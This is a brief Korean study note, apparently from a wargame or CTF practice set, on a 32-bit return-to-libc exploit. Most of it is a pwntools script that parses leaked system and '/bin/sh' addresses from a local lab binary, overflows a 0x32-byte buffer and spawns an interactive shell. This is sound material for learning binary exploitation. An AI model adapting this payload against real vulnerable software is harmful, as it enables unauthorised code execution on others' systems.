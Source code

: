 - exploit
32bit에서는 스택으로 인자를 전달해야 하므로 아래와 같이 payload를 작성할 수 있음
여기서 2번째 sfp입력은 사실 ret를 위한 부분
```python
from pwn import *

#p=process("./rtl_32")
p=gdb.debug("./rtl_32")
context.log_level='debug'

system_addr=b''
binsh_addr=b''
payload=b''

bufsize=0x32
sfpsize=0x4

p.recvuntil("system addr: 0x")
system_addr=p32(int(p.recv(7),16))

p.recvuntil("binsh addr: 0x")
binsh_addr=p32(int(p.recv(7),16))

payload+=b'a'*(bufsize+sfpsize)
payload+=system_addr
payload+=b'a'*sfpsize
payload+=binsh_addr

p.send(payload)

p.interactive()
```


# 예제3
[[Dreamhack - Return to Library]]

